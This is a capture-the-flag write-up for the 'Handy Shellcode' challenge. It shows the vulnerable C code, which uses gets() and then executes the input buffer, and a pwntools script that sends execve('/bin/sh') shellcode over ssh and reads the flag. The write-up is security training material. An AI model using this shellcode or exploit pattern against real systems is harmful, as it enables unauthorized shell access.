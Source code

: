 # Handy Shellcode (pwn-50) Writeup


- - - -
### Problem:
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in `/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5 on the shell server. Source.


- - - -
### Goal:
Pop a shell


- - - -
### Solution:
In this problem we're given the source code for the vulnerable binary.

The `vuln()` function (shown below) unsafely gets input from the user and prints it back out.

```c
void vuln(char *buf){
  gets(buf);
  puts(buf);
}
```

Once the binary calls the `vuln()` function, it then executes the input we provided. It does so by casting the address of `buf` to a function then invoking this function.

```c
((void (*)())buf)();
```

To solve this problem we simply need to provide shellcode to the input of `vuln()` so that it can be executed. The python script below sets up an ssh connection to the executable then sends shellcode which in this case is equivalent to `execve('/bin/sh', NULL, NULl)`.

```python
from pwn import *

# Setup
context.log_level = 'debug'
s = ssh(host='2019shell1.picoctf.com', user='thomasvn', password='XXX')
sh = s.process('/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/vuln')

# Shellcode
exploit = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
sh.sendlineafter('\n', exploit)
sh.sendlineafter('$ ', 'cd /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/')
sh.sendlineafter('$ ', 'cat flag.txt')
sh.interactive()
```


- - - -
### Sources:
http://shell-storm.org/shellcode/files/shellcode-827.php
